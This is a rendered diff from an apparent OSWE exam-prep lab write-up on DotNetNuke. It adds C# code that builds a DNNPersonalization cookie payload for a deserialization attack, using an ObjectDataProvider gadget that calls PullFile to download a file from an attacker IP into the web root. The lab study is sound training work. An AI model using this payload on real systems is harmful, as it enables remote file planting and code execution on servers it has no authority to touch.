

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/DotNetNuke/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/DotNetNuke/README.md
+++ b/OSWE-Labs/DotNetNuke/README.md
@@ -206,3 +206,37 @@ public static string SerializeDictionary(IDictionary source, string rootName)
 }
 
 ```
+With that in mind, we will adjust our application source code to look like the following:
+```c#
+using System;
+using System.IO;
+using System.Xml.Serialization;
+using DotNetNuke.Common.Utilities;
+using System.Windows.Data;
+using System.Collections;
+
+namespace ODPSerializer
+{
+    class Program
+    {
+        static void Main(string[] args)
+        {
+            ObjectDataProvider myODP = new ObjectDataProvider();
+            myODP.ObjectInstance = new FileSystemUtils();
+            myODP.MethodName = "PullFile";
+            myODP.MethodParameters.Add("http://192.168.45.192/myODPTest.txt");
+            myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
+
+            Hashtable table = new Hashtable();
+            table["myTableEntry"] = myODP;
+            String payload = "; DNNPersonalization=" + XmlUtils.SerializeDictionary(table, "profile");
+            TextWriter writer = new StreamWriter("C:\\Users\\Public\\PullFileTest.txt");
+            writer.Write(payload);
+            writer.Close();
+
+            Console.WriteLine("Done!");
+        }
+    }
+}
+
+```
````
